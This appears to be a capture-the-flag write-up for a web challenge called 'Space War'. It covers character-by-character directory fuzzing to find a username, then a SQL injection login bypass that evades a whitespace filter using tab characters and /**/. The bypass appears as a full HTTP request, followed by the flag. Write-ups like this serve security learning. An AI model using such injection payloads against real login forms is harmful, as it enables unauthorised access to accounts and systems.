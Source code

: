 ### Space War

Description: i started war as i don't like EQUALity, i lost, they cut every LETTER of my name and sent them to different ROUTES. Wanna know my name in L33t???

Using spaces, single quotes in the username field are triggering the firewall, it says `Ummmm, TBH, i love " but hate whitespaces`.

After a long time it struck me that the description is pointing to directory fuzzing, starting with only one alpabet or number, i made a wordlist of all alphabets(UPPERCASE and lowercase) and numbers (0-9). Fuzzing using this list gives 200 for only 1 charecter. Then you prepend the 20 OK charecter to all chars in your original list and continue it till you dont see any 200.

/K -> /Ku -> /Kur -> /Kur0 -> /Kur0s -> /Kur0s4 -> /Kur0s4k -> /Kur0s4k1

Doing the above, we get that the username is `Kur0s4k1`, the response to `/Kur0s4k1` is: -
```
Ohhhh myy Goddd!! you finally did it!! you are worthy, my name Kur0s4k1
```

The using `Kur0s4k1"%09OR%091;--%09-` as the user to bypass waf, will let us in. There are many ways in which we can bypass spaces, replace them with `/**/` or `[TAB]`(what I did here) etc.
```
POST /login HTTP/1.1
Host: 34.132.132.69:8005
User-Agent: useragent
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://34.132.132.69:8005
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://34.132.132.69:8005/
Upgrade-Insecure-Requests: 1

username=Kur0s4k1"%09OR%091=1;--%09-&password=lol
```

You will be redirected to /dashboard after login
```
SO YOU FOUND IT
you are worthy to see my SECRET...

flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}
```

### FLag

`flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`
